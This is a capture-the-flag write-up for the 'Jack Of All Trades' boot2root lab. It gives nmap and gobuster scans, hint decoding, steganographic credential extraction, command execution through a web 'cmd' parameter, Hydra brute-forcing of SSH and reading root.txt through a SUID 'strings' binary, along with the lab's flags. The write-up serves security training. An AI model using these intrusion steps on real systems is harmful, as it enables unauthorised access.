 > Jack Of All Trades | Boot2Root

**export IP=10.10.217.6**

# Nmap

nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
22/tcp open  http    syn-ack Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
80/tcp open  ssh     syn-ack OpenSSH 6.7p1 Debian 5 (protocol 2.0)
```

**NOTE : To overcome the port errot in `about:config` create an entry `network.security.ports.banned.override` and set the value `22`**

# Gobuster

gobuster -u http://10.10.217.6:22 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -t 20 -o gobuster/initial -x .php

```
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.hta (Status: 403)
/.hta.php (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/recovery.php (Status: 200)
/server-status (Status: 403)
```

curl http://$IP:22 gives us a base64 strings

echo "UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==" | base64 -d


```
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```

**NOTE : If I ever get locked out I can get back in at /recovery.php!**

In /recovery.php we found

`GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=`

base32 -> hex -> rot13

```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

The above link gives us an hint about Stegosauria like stego

Using stegsolve and password we already have `u?WtKSraq`
We got creds.txt

```
Hehe. Gotcha!

You're on the right path, but wrong image!
```

We must get the top image and stegide and extract with the same password header.jpg

```
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```

This page asks for commands and let's give it

http://10.10.217.6:22/nnxhweOV/index.php?cmd=ls -la /home

```
total 16
drwxr-xr-x  3 root root 4096 Feb 29  2020 .
drwxr-xr-x 23 root root 4096 Feb 29  2020 ..
drwxr-x---  3 jack jack 4096 Feb 29  2020 jack
-rw-r--r--  1 root root  408 Feb 29  2020 jacks_password_list
-rw-r--r--  1 root root  408 Feb 29  2020 jacks_password_list
```

We got the password list.

# Cracking SSH using Hydra

hydra -l jack -P password_list.txt -s 80 ssh://10.10.217.6

```
[80][ssh] host: 10.10.217.6   login: jack   password: ITMJpGGIqg1jn?>@
```

We got a user.jpg file and on moving it to our local machine we have it.

user.txt
================================
securt-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}
================================

# SUID binaries

find / -perm -u=s -type f 2>/dev/null

```
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/pt_chown
/usr/bin/chsh
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/strings
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/procmail
/usr/sbin/exim4
/bin/mount
/bin/umount
/bin/su
```

/usr/bin/strings /root/root.txt

```
securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}
```